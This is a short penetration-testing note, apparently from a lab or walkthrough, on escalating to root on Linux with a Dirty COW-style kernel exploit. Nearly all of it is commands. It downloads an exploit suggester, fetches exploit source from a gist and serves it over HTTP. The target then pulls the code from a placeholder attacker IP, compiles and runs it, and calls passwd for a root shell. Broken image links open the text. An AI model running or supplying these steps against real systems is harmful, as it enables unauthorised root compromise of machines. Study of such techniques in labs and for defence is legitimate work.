


compile and execute the exploit
1. Find the kernel exploit for example with
linux-exploit-suggester-2 Attacker machine
root@kali:/# wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
root@kali:/# ./linux-exploit-suggester-2.pl -k <kernel-number>
 Once we have found an
exploit we can search on internet(GitHub etc.) for the most appropriate code for our specific machine
2.
this version of the exploit:
https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54
seems can work better on our machine
Attacker
attacker@kali:/# cd /var/www/html
attacker@kali:/# wget https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
attacker@kali:/# python3 -m http.server 80 -d /var/www/html
Download on the target, Compile and Execute
target@debian:~$ wget http://<attackerIP>/c0w.c
target@debian:~$ gcc -pthread c0w.c -o c0w # pthread adds support for multithreading with the pthreads library.
target@debian:~$ ./c0w
target@debian:~$ /usr/bin/passwd #execute /usr/bin/passwd binary to get a root shell
